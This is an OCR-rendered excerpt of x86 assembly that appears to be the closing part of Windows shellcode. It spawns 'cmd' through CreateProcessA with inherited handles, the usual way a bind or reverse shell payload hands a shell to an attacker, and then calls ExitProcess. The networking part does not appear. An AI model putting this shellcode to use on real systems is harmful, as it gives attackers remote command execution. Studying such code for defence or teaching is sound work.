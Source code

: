 ```asm
  ; create process 
    pop eax 			; set eax = 0 (STARTUPINFO now at esp + 4) 
    push esp			; use stack as PROCESSINFORMATION structure 
    ; (STARTUPINFO now back to esp) 
    push esp 			; STARTUPINFO structure 
    push eax 		; lpCurrentDirectory = NULL 
    push eax 		; lpEnvironment = NULL 
    push eax 		; dwCreationFlags = NULL 
    push esp 			; bInheritHandles = true 
    push eax 		; lpThreadAttributes = NULL 
    push eax 		; lpProcessAttributes = NULL 
    push esi 			; lpCommandLine = "cmd" 
    push eax 		; lpApplicationName = NULL 
    call [esi - 0x1c] 	; CreateProcessA 
    
  ; call ExitProcess() 
    call [esi - 0x18] ; ExitProcess
    nop
    nop
```